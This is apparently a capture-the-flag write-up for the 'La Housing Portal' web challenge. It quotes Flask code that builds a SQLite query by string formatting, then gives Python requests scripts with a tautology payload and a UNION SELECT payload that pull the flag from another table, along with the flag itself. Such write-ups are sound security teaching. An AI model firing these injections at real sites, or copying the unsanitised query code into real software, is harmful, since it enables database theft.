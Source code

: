 # La Housing Portal

## Description
```
Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. 
The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.

Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.

Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.
```

## Provided Files
`serv.zip`

## Writeup

Starting off I took a look at the provided files. <br/>
```py
@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")
    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

Seeing the missing `input sanitation` for the `SQL query` I instantly thought of an `SQL injection`. <br/>
Taking a look into the `data.sql` file I also found the point where the flag was injected. <br/>
```sql
CREATE TABLE IF NOT EXISTS "users"
(
    id       integer not null
        constraint users_pk
            primary key autoincrement,
    name     TEXT,
    guests   TEXT,
    neatness text,
    sleep    TEXT    not null,
    awake    text
);
INSERT INTO users VALUES(1,'Finn Carson','No guests at all','Put things away as we use them','8-10pm','4-6am');
INSERT INTO users VALUES(2,'Aldo Young','No guests at all','Put things away as we use them','8-10pm','6-8pm');
INSERT INTO users VALUES(3,'Joy Holt','No guests at all','Put things away as we use them','8-10pm','8-10am');

------------------------------

CREATE TABLE flag (
flag text
);
INSERT INTO flag VALUES("lactf{fake_flag}");
```

Seeing that the `flag` was in another `SQL table` I instantly knew that it had to be a `SQL UNION query injection`. <br/>
To test out the `SQL injection` I made a little python script which proved to me that it was possible. <br/>
```py
import requests

base_URL = "https://la-housing.chall.lac.tf/submit"

forms = {
    'name': "Idk",
    'guests': "l' or '1'='1",
    'neatness': "na",
    'sleep': "na",
    'awake': "na"
}

req = requests.post(base_URL, data=forms)

print(req.text)
```

It's also important to remember that the payload has the maximum size of 50 characters as seen in the code below. <br/>
```py
if (len(k) > 10 or len(v) > 50) and k != "name":
    return "Invalid form data", 422
```

Knowing these things I made another payload and executed my script. <br/>
```py
import requests

base_URL = "https://la-housing.chall.lac.tf/submit"

forms = {
    'name': "Idk",
    'guests': "idk", 
    'neatness': "l'union select '', '', '', '', '', flag from flag'", 
    'sleep': "na",
    'awake': "na"
}

req = requests.post(base_URL, data=forms)

print(req.text)
```

I had to add whitespaces because the union query only works if it had the same amount of columns as the base table `users`. <br/>
Executing the python script I successfully obtained the flag which concludes this writeup. <br/>
```html
<h2>Result for Idk:</h2>
<table id="data" class="table table-striped">
  <thead>
    <tr>
      <th>Name</th>
      <th>Guests</th>
      <th>Neatness</th>
      <th>Sleep time</th>
      <th>Awake time</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td></td>
      <td></td>
      <td></td>
      <td></td>
      <td>lactf{us3_s4n1t1z3d_1npu7!!!}</td>
    </tr>

  </tbody>
</table>
<a href="/">Back</a>

<style>
  * {
    border: 1px solid black; border-collapse: collapse;
  }
</style>
```